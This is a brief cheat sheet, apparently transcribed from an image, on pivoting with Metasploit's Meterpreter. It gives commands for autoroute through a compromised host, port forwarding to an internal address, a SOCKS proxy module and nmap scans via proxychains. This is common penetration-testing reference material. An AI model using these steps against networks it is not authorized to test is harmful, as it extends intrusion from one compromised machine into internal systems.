 # Meterpreter Pivoting

## Autoroute

run autoroute -s <TARGET_SUBNET>

Adds route to internal network through compromised host.

Port Forwarding
portfwd add -l 8888 -p 80 -r 10.0.0.5

Access internal service at 127.0.0.1:8888.

SOCKS Proxy
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9050
set VERSION 4a
run

With Proxychains
proxychains nmap -sT -Pn -p80 10.0.0.5
